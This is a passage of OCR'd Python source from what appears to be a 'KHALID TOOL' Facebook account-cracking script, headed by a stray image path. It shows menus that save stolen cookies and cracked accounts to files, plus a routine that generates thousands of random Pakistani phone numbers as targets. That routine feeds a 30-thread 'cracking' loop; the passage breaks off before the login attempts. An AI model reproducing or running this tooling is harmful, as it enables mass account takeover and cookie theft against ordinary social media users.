                                 print('\033[0;97m[•]\033[1;32m COOKIES SAVED IN \033[1;31m: \033[1;32m/sdcard/KHALID-COOKIE.txt') 
                                print('\033[0;97m[•]\033[1;32m OK ACCOUNTS SAVED IN \033[1;31m: \033[1;32m/sdcard/KHALID-OK.txt')
                                linex()
                                input('\033[0;97m[•]\x1b[1;92m PRESS ENTER TO BACK');clear();menu()
                        elif xd in ['2','02']:
                                clear()
                                print('\t\x1b[1;92mKHALID TOOL RANDOM CLONING MENU')
                                linex()
                                print('\033[1;37m[1] \x1b[1;92mPAKISTAN RANDOM CLONING\n\033[1;37m[2] \x1b[1;92mBANGLADESH RANDOM CLONING\n\033[1;37m[3] \x1b[1;92mAFGHANISTAN RANDOM CLONING\n\033[1;37m[0] \033[1;32mBACK IN MAIN MENU ')
                                linex()
                                x=input('\033[0;97m[•] \033[0;92mCHOOSE \x1b[1;91m: \x1b[1;96m ')
                                if x in ['1','01']:
                                        pak()
                                elif x in ['2','02']:
                                        bd()
                                elif x in ['3','03']: 
                                        afg()
                                else:
                                        print('\033[0;97m[•] \033[0;91mCHOOSE CORRECT OPTION');menu()
                        elif xd in ['3','03']:
                                os.system('xdg-open https://www.facebook.com/mradi5000');menu() 
                        elif xd in ['0','00']:
                                clear()
                                print('\t\x1b[1;92m   EXIT FROM KHALID TOOL')
                                linex()
                                input('\033[0;97m[•]\x1b[1;92m PRESS ENTER TO CONTACT OWNER ');clear() 
                                os.system('xdg-open https://www.facebook.com/mradi5000');print('\x1b[1;97m[•] \x1b[1;92mPROGRAM CLOSED THANKS FOR USE KHALID TOOL');time.sleep(2);linex();exit() 
                        else:
                                print('\033[0;97m[•] \033[0;91mCHOOSE CORRECT OPTION');menu()
        except ValueError:
                exit()
        except requests.exceptions.ConnectionError:
                print('\n\033[0;97m[•]\x1b[1;91mNO INTERNET CONNECTION...')
                exit()
#_________[ PAK RANDOM CLONER ]______>>
def pak():
                user=[]
                clear()
                print('\t\x1b[1;92mKHALID TOOL PAK RANDOM CLONER MENU')
                linex()
                print('\t\x1b[1;92m PAKISTAN SIM CODE MENU')
                linex()
                print('\033[1;32m PAKISTAN SIM CODE EXAMPLE \x1b[1;91m: \x1b[1;96m0306,0315,0335,0345')
                linex() 
                code = input('\033[0;97m[•] \033[1;32mPUT CODE \x1b[1;91m: \x1b[1;96m ')
                linex() 
                try:
                        limit = int(input('\t\x1b[1;92m        UIDS LIMIT MENU\n\033[1;97m====================================================\n\033[0;97m[•]\033[1;32m EXAMPLE \x1b[1;91m: \x1b[1;96m2000, 3000, 5000, 10000\n\033[1;97m====================================================\n\033[0;97m[•]\033[1;32m PUT LIMIT \x1b[1;91m: \x1b[1;96m'))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                with tred(max_workers=30) as KHALID:     
                        clear()
                        tl = str(len(user))
                        print('\t\x1b[1;92mKHALID TOOL RANDOM PAK CRACKING MENU')
                        linex()